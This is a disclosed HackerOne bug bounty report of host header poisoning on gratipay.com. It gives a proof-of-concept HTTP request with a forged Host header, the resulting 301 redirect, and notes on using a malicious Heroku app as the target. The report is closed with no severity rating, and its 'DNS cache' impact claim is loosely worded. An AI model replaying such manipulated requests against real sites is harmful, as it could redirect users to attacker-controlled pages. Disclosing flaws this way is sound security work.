 # Host Header poisoning on gratipay.com

## Report Details
- **Report ID**: 158482
- **URL**: https://hackerone.com/reports/158482
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-11T14:45:22.032Z
- **Disclosed**: 2017-08-21T13:32:31.677Z

## Reporter
- **Username**: aaron_costello
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gratipay

## Vulnerability Information
There is a host header poisoning vulnerability on gratipay.com that allows an attacker to cause a 301 redirect and poison the browser DNS cache to cause all further requests to gratipay.com to be redirected to the attacker's site.

PoC Request:
```
GET https://gratipay.com/ HTTP/1.1
Host: heroku.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Cookie: csrf_token=oglKUTprcTt6gQkxpCMEz6UAj0HXxgez; suppress-welcome=; session=eeee68e176604dc2bdb36d1766755ea0
Connection: keep-alive
```

Response:
```
HTTP/1.1 301 Moved Permanently
Server: Cowboy
Date: Thu, 11 Aug 2016 14:38:17 GMT
Connection: keep-alive
Strict-Transport-Security: max-age=31536000
Location: https://www.heroku.com/
Content-Type: text/html
Content-Length: 0
Via: 1.1 vegur
```

Things to note:
1. Tested on Firefox, Host header manipulated with the Live HTTP Headers and Tamper Data addons
2. The attacker must create a malicious Heroku app to redirect to, in the PoC i have just chosen heroku.com


## Attachments
No attachments
